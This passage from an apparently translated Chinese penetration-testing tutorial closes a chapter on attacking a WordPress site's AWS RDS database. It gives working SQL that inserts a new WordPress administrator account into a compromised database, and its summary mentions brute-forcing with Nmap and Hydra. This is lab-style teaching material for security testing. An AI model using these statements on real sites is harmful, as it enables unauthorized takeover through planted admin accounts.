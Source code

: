 我们可以看到`wp_users`表；现在是添加新行的时候了。

4.  在本教程中，我们将创建一个具有`pass123`密码的`newadmin`用户。发出以下命令：

```
INSERT INTO `wp_users` (`user_login`, `user_pass`, `user_nicename`, `user_email`, `user_status`)
VALUES ('newadmin', MD5('pass123'), 'firstname lastname', 'email@example.com', '0');

INSERT INTO `wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) 
VALUES (NULL, (Select max(id) FROM wp_users), 'wp_capabilities', 'a:1:{s:13:"administrator";s:1:"1";}');

INSERT INTO `wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) 
VALUES (NULL, (Select max(id) FROM wp_users), 'wp_user_level', '10');
```

5.  现在访问登录页面`http://<<EC2 IP Address>>/wp-login.php`。输入新凭据，您将以新管理员身份登录。

# 总结

在本章中，我们学习了什么是 RDS 实例以及如何创建 RDS 实例。然后，我们在 EC2 机器上建立了 WordPress 网站，然后将其配置为使用 RDS 实例作为数据库服务器。我们看到了 RDS 实例如何变得易受攻击。此外，我们使用 Nmap 和 Hydra 来识别和利用易受攻击的 RDS 实例。最后，我们学习了如何篡改 RDS 实例的数据以创建新的 WordPress 用户。

在下一章中，我们将学习如何测试各种其他 AWSAPI。

# 进一步阅读

*   **使用 ncrack、hydra 和 medusa 强制输入密码**：[https://hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/](https://hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/)
*   **在亚马逊 RDS**[中配置安全 https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.html](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.html)
*   **加密亚马逊 RDS 资源**：[https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/Overview.Encryption.html](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/Overview.Encryption.html)